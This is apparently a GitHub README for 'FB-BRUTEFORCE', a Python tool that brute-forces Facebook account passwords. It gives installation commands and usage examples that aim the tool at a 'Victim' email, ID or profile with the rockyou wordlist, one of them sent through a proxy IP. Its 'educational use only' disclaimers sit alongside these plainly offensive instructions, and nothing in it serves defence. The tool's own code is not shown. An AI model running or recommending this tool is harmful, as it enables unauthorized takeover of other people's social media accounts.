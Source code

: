 ### Note: this tool is not ready please wait for using this tool.
## Warning🚨:

**⚠️Misuse of information on this website/tool may result in criminal charges against the individuals concerned.  The authors and WHITEDH4CKER will not be held responsible in case any criminal charges are filed against any person misusing the information on the website/tool. This website/tool is designed for educational purposes only.⚠️**

## Screenshots:
![App Screenshot](https://github.com/WHITEDH4CKER/FB-BRUTEFORCE/blob/main/Screenshots/fb-bruteforce.png)
***
![App Screenshot](https://github.com/WHITEDH4CKER/FB-BRUTEFORCE/blob/main/Screenshots/FB-ATTACK.png)
***

## INSTALLATION:
   #### ➡️use the following commands for Termux & Linux:

```shell script
apt update && apt upgrade
```

```shell script
apt-get install python-pip
```

```shell script
pip install colorama termcolor requests
```

```shell script
pip install mechanize
```

```shell script
git clone https://github.com/WHITEDH4CKER/FB-BRUTEFORCE
```

```shell script
cd FB-BRUTEFORCE
```

```shell script
python FB-ATTACK.py
```
## Usage
   ```
       Usage: python FB-ATTACK.py [OPTIONS...]
Examples:
     |--------
     | python FB-ATTACK.py -t Victim@gmail.com -w /usr/share/wordlists/rockyou.txt
     |--------
     | python FB-ATTACK.py -t 100001013078780 -w C:\\Users\\Me\\Desktop\\wordlist.txt
     |--------
     | python FB-ATTACK.py -t Victim@hotmail.com -w D:\\wordlist.txt -p 144.217.101.245:3129
     |--------
     | python FB-ATTACK.py -t Victim@gmail.com -s 1234567
     |--------
     | python FB-ATTACK.py -g https://www.facebook.com/Victim_Profile
     |--------
```
## License
This software is distributed under the GNU General Public License version 3 (GPLv3)

## LEGAL NOTICE
THIS SOFTWARE IS PROVIDED FOR EDUCATIONAL USE ONLY! IF YOU ENGAGE IN ANY ILLEGAL ACTIVITY THE AUTHOR DOES NOT TAKE ANY RESPONSIBILITY FOR IT. BY USING THIS SOFTWARE YOU AGREE WITH THESE TERMS.

## 👤My Account For Support👤:

### ➡️ [Instagram](https://Instagram.com/WHITEDH4CKER)
### ➡️ [Telegram](https://t.me/WHITEDH4CKER)
### ➡️ [Telegram group](https://t.me/WHITEDR00M)
### ➡️ [WhatsApp channel](https://whatsapp.com/channel/0029VaIlY264IBh9T2iaey0r)

***
### <p align="center">```And Thanks for choosing this tool Support Us !``` 
  
 ## <p align="center">```WHITEDH4CKER [DEV_SANJAY]```

<p align="right"> Last FAQ Update: 29.12.2023 </p>
